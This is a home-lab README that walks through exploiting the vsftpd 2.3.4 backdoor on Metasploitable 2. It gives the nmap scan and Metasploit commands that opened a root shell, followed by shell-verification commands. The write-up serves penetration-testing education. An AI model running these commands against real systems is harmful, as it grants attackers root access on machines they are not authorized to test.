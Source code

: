 
# Metasploit Exploitation Lab: vsftpd 2.3.4 Backdoor

## 🔍 Overview

This project demonstrates the exploitation of a known vulnerability in the vsftpd 2.3.4 service running on Metasploitable 2 using the Metasploit Framework. It was conducted in a safe, isolated home lab environment and documents the step-by-step process of scanning, exploiting, and gaining a remote shell.

## 🛠️ Tools Used

- VMware Workstation (for virtual lab setup)
- Kali Linux (attacker machine)
- Metasploitable 2 (target machine)
- Metasploit Framework
- Nmap (network scanning tool)

## ⚙️ Lab Setup

- **Kali** and **Metasploitable** were configured on the same **host-only network** in VMware.
- Metasploitable's IP was discovered using `ifconfig` inside the VM.

## 📸 Screenshots

### Step 1: Identified target IP address using `ifconfig`
![Step 1 - ifconfig](screenshots/Step_1_vsftpd.jpg)

### Step 2: Scanned with `nmap` to verify port 21
![Step 2 - Nmap](screenshots/Step_2_vsftpd.jpg)

### Step 3: Launched Metasploit and searched for `vsftpd` exploit
![Step 3 - Metasploit Search 1](screenshots/Step_3_msf_search1.jpg)  
![Step 3 - Metasploit Search 2](screenshots/Step_3_msf_search2.jpg)

### Step 4: Set RHOSTS and ran the exploit
![Step 4 - Exploit Config](screenshots/Step_4_exploit_config.jpg)

### Step 5: Verified shell access with `whoami`, `id`, `uname -a`
![Step 5 - Shell Access](screenshots/Step_5_shell_access.jpg)

## 🧪 Exploitation Steps

1. Identify target IP with `ifconfig` on Metasploitable.
2. Run a service scan from Kali:
   ```bash
   nmap -sV -p 21 <target-ip>
   ```
3. Launch Metasploit:
   ```bash
   msfconsole
   search vsftpd
   use exploit/unix/ftp/vsftpd_234_backdoor
   set RHOSTS <target-ip>
   run
   ```
4. Confirm shell session:
   ```bash
   whoami
   uname -a
   id
   ```

## ✅ Result

- The exploit was successful, opening a root shell on Metasploitable.
- Demonstrates knowledge of offensive security tools and penetration testing methodology.

## 📄 Report

A full lab write-up is included in the file below:

- [`Metasploit_Exploitation_Lab_Report.pdf`](Metasploit_Exploitation_Lab_Report_Final.pdf)

## 🔐 Disclaimer

This lab was conducted in a **controlled local environment** for **educational purposes only**. Never attempt to exploit systems you do not own or have permission to test.

---

© 2025 Kevin Goates
